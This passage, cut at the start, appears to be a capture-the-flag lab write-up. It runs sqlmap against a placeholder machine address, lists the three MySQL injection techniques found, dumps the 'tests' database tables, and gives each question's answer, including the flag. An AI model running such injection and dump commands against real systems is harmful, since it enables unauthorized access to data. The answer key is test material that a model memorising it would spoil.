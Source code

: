 <MACHINE_IP>` reveals 3 vulnerabilities: * MySQL RLIKE boolean-based blind - `WHERE`, `HAVING`, `ORDER BY` or `GROUP BY` clause * Title: MySQL >= 5.6 `AND` error-based - `WHERE`, `HAVING`, `ORDER BY` or `GROUP BY` clause (GTID_SUBSET) * Title: MySQL >= 5.0.12 `AND` time-based blind (query `SLEEP`) **Answer**: `3` ### What is the name of the database? `sqlmap --dump --forms -u <MACHINE_IP>` reveals the database name: * `lol` table output from `sqlmap`: ``` Database: tests Table: lol [1 entry] +----------+ | flag | +----------+ | found_me | +----------+ ``` * `msg` table output from `sqlmap`: ``` Database: tests Table: msg [2 entries] +------+ | msg | +------+ | msg | | test | +------+ ``` **Answer**: `tests` ### How many tables are in the database? **Answer**: `2` ### What is the value of the flag? **Answer**: `found_me`
